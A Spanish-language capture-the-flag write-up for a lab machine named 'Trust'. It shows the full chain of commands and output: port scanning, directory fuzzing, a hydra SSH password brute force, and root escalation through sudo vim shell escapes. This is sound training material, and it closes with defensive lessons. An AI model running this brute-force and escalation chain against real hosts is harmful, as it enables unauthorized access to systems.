

# Máquina Vulnerable: Trust

|                   | Detalle maquina original                        |
| ----------------- | ----------------------------------------------- |
| Autor             | [El Pingüino de Mario](https://github.com/Maalfer) |
| Dificultad        | Muy Fácil                                       |
| Fecha de creación | 02/04/2024                                      |
| Fecha del writeup | 07/12/2025                                      |
| Maquina original  | trust                                           |

Máquina CTF diseñada para practicar técnicas de pentesting básicas en un entorno controlado. Esta réplica implementa vulnerabilidades típicas de configuraciones inseguras que incluyen exposición de información sensible, contraseñas débiles y permisos sudo mal configurados.

El objetivo es practicar metodologías de pentesting desde el reconocimiento inicial hasta la escalada de privilegios, utilizando herramientas estándar como nmap, gobuster, hydra y técnicas de explotación basadas en GTFOBins.

## Tabla de Contenidos

- [Explotación](#explotación)
  - [Vulnerabilidades Implementadas](#vulnerabilidades-implementadas)
- [Write-up Completo](#write-up-completo)
  - [Diagrama de Ataque](#diagrama-de-ataque)
  - [Paso 1: Reconocimiento - Escaneo de Puertos](#paso-1-reconocimiento---escaneo-de-puertos)
  - [Paso 2: Enumeración Web - Fuzzing de Directorios](#paso-2-enumeración-web---fuzzing-de-directorios)
  - [Paso 3: Análisis del Archivo Secreto](#paso-3-análisis-del-archivo-secreto)
  - [Paso 4: Ataque de Fuerza Bruta SSH](#paso-4-ataque-de-fuerza-bruta-ssh)
  - [Paso 5: Acceso SSH como Usuario](#paso-5-acceso-ssh-como-usuario)
  - [Paso 6: Enumeración de Privilegios](#paso-6-enumeración-de-privilegios)
  - [Paso 7: Escalada de Privilegios con VIM](#paso-7-escalada-de-privilegios-con-vim)
- [Conclusión](#conclusión)

---

## Explotación

### Vulnerabilidades Implementadas

- **Exposición de Información**: Archivo `secret.php` accesible sin autenticación que revela nombre de usuario
- **Contraseña Débil**: Password vulnerable a ataques de diccionario (rockyou.txt)
- **Configuración sudo Insegura**: Usuario puede ejecutar `/usr/bin/vim` como root sin contraseña
- **Permisos Elevados Innecesarios**: Usuario regular con capacidad de ejecutar binarios peligrosos

---

## Write-up Completo

### Diagrama de Ataque



### Paso 1: Reconocimiento - Escaneo de Puertos

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- -sV 172.19.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-10 18:51 EST
Nmap scan report for 172.19.0.2
Host is up (0.0000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
MAC Address: 02:42:AC:13:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.30 seconds

```

**Resultado**: Se identifican dos puertos abiertos:
- **Puerto 80 (HTTP)**: Apache httpd 2.4.57
- **Puerto 22 (SSH)**: OpenSSH 9.2p1 Debian 2+deb12u2

### Paso 2: Enumeración Web - Fuzzing de Directorios

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://172.19.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,html | grep "(Status: 200)"
/index.html           (Status: 200) [Size: 1097]
/secret.php           (Status: 200) [Size: 1524]
```

**Resultado**: Se descubre archivo oculto `secret.php`

### Paso 3: Análisis del Archivo Secreto

```bash
┌──(kali㉿kali)-[~]
└─$ curl -s http://172.19.0.2/secret.php
```

```html
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>¡Secreto!</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #f0f0f0;
            margin: 0;
            padding: 0;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
        }
        .container {
            text-align: center;
            background-color: #fff;
            padding: 20px;
            border-radius: 10px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        }
        h1 {
            color: #333;
        }
        p {
            color: #666;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>Hola Mario,</h1>
        <p>Esta web no se puede hackear.</p>
    </div>
</body>
</html>
```

**Resultado**: Se obtiene el nombre de usuario `mario` y una pista sobre contraseña común.

### Paso 4: Ataque de Fuerza Bruta SSH

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.19.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-07 20:49:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.19.0.2:22/
[22][ssh] host: 172.19.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-07 20:49:26
```

**Resultado**: Credenciales descubiertas → `mario:chocolate`

### Paso 5: Acceso SSH como Usuario

```bash
┌──(kali㉿kali)-[~]
└─$ ssh mario@172.19.0.2  
mario@172.19.0.2's password: 
Linux 67b1705963fd 6.12.38+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.38-1kali1 (2025-08-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Dec 10 23:47:31 2025 from 172.19.0.1

```

**Resultado**: Acceso exitoso como usuario `mario`


### Paso 6: Enumeración de Privilegios

```bash
mario@67b1705963fd:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 67b1705963fd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 67b1705963fd:
    (ALL) /usr/bin/vim
```

**Resultado**: El usuario puede ejecutar `vim` como root sin contraseña

### Paso 7: Escalada de Privilegios con VIM

Consultando [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo) para técnicas de escalada:

**Opción 1:**
```bash
mario@0cd19177fded:~$ sudo vim --cmd ':set shell=/bin/sh|:shell'

# whoami
root
```

**Opción 2:**
```bash
mario@0cd19177fded:~$ sudo vim -c ':!/bin/sh'

# whoami
root
```

**Resultado**: Escalada exitosa a root ✓

---

## Conclusión

Esta máquina demuestra vulnerabilidades comunes en entornos mal configurados:
- Exposición de información sensible
- Contraseñas débiles susceptibles a ataques de diccionario
- Configuraciones sudo inseguras que permiten escalada de privilegios

**Lecciones aprendidas:**
- Nunca exponer información de usuarios en archivos públicos
- Usar contraseñas robustas y únicas
- Restringir permisos sudo a comandos específicos y seguros
- Validar configuraciones de seguridad regularmente
